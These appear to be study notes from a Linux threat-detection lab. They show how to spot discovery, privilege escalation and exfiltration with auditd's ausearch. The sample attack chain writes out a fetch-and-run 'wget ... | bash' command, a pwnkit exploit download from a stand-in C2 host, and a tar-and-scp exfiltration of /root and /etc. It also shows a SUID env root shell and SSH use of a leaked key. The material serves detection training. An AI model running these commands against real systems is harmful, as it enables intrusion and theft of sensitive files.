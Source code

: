 ```bash
root@thm-vm:~$ ausearch -i --ppid 27808 | grep proctitle
type=PROCTITLE msg=audit(...): proctitle=id
type=PROCTITLE msg=audit(...): proctitle=uname -a
type=PROCTITLE msg=audit(...): proctitle=ls -la .
```

---

## 🧱 Privilege Escalation Basics

Initial Access rarely grants **root** privileges. Attackers often need **Privilege Escalation** to gain administrative control.

| **Preceding Discovery (IF)**                     | **Privilege Escalation (THEN)**                                                 |       |
| ------------------------------------------------ | ------------------------------------------------------------------------------- | ----- |
| `uname -a` reveals an outdated Ubuntu 16.04      | Run an exploit like: `wget [http://bad.thm/pwnkit.sh](http://bad.thm/pwnkit.sh) | bash` |
| `find /bin -perm 4000` finds a SUID `env` binary | Abuse it: `/bin/env /bin/bash -p`                                               |       |
| `ls /etc/ssh` shows an unprotected backup key    | Use it: `ssh root@127.0.0.1 -i ssh-backup-key`                                  |       |

### Detection Strategy

Privilege Escalation detection is complex — focus on **surrounding indicators** rather than exact exploits.

Example attack chain:

```bash
# 1. Discovery
whoami
id; pwd; uname -r

# 2. Exploit Download
wget http://c2-server.thm/pwnkit.c -O /tmp/pwnkit.c
gcc /tmp/pwnkit.c -o /tmp/pwnkit
/tmp/pwnkit

# 3. Exfiltration
whoami      # Now 'root'
tar czf dump.tar.gz /root /etc/
scp dump.tar.gz attacker@c2-server.thm:~
```

You can confirm escalation by comparing UIDs before and after:

```bash
ausearch -i -x pwnkit
ausearch -i --ppid <pid> | grep uid=root
```

---

## 🔁 Persistence in Linux
